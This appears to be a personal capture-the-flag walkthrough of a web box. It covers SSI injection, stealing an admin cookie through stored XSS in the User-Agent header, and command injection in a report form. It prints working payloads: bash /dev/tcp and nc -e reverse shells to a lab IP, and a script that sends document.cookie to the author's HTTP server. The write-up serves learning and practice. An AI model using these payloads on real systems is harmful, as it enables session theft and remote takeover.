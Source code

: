 While that runs I will look for other injections.

No obvious command injections, but that's also because there is no output from the post. I might have to look at create a reverse shell, but for now I am going try other things.

Huh... trying an SSI injection returns this:
```
Hacking Attempt Detected
Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.
```

That could just be a hint there is a WAF of somekind I guess. But worth a shot.

That appears to only be the response when I put an SSI into the message paramter on the support page.

I wonder if that means the other variables are vulnerable and thats the only one tested. I could try to set up a reverse with this maybe:
`<!--#exec cmd="bash -i >& /dev/tcp/10.10.14.232/2222 0>&1" -->`

Hmm no dice. What about:
`<!--#exec cmd="nc -e /bin/sh 10.10.10.232 2222" -->`

I am going to through a bunch of these into an ffuf fuzz.

I found a bunch of reverse shells [here](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

None of these appear to have worked...

Okay so after some research I found that I could try and steal the cookie of the admin by using XSS.

[This page](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) has some cool information and we notice that our request header is http not https. So I started a python server on 8001 with:
`python3 -m http.server 8001`

Then I started trying to steal the cookie with this:
`<script>var i=new Image(); i.src="http://10.10.14.232:8001/?cookie="+btoa(document.cookie);</script>`

In subsequent fields. This was not working. So I looked it up and the problem I needed to put this in the User-Agent field, which I had no idea was even possible. Right after I got the cookie. And decoded it from base64.

No I can try to visit the dashboard page by first opening dashboard, starting the intercept in Burp, refreshing the page, modifying the request cookie to the new cookie, and forwarding the request.

So there is a page here that says generate report and asks for a date. It appears the only output from this is Systems are up and running!

If I intercept the request I can add ; and do direct command injection.

But I can try a reverse shell if I intercept the request and change input field to:
`bash -i >& /dev/tcp/10.10.10.232/2222 0>&1`

Nope. And not URL encoded either.
